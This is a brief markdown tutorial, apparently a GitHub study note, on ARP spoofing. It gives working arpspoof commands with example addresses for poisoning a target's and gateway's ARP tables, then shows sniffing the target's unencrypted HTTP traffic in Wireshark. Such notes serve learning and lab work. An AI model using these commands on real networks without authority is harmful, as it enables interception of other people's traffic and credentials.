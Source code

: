 # ARP Spoofing

### Tools

arpspoof \(kali\) -- works by forging ARP replies to communicating parties

### Sniffing on a private network - Step by Step

**Requirements**

* arpspoof / dsniff
* wireshark

1. Figure out the Default Gateway first by \`route -n\` command.

2. Narrow down the target by running \`nmap\` sweep.

3. To start ARP spoofing, run 

`sudo arpspoof -i [interfacename] -c host -t [target-ip] [default-gateway-ip]`

	1. e.g. `sudo arpspoof -i wlan0 -c host -t 192.168.1.122 192.168.1.1`

1. arpspoof should now be sending arp replies to the gateway and target with spoofed addresses

2. Open Wireshark and apply the `tcp port http` to listen to unencrypted traffic between the router and the target.

3. Once done, stop the `arpspoof` process to depoison ARP tables in gateway and target.

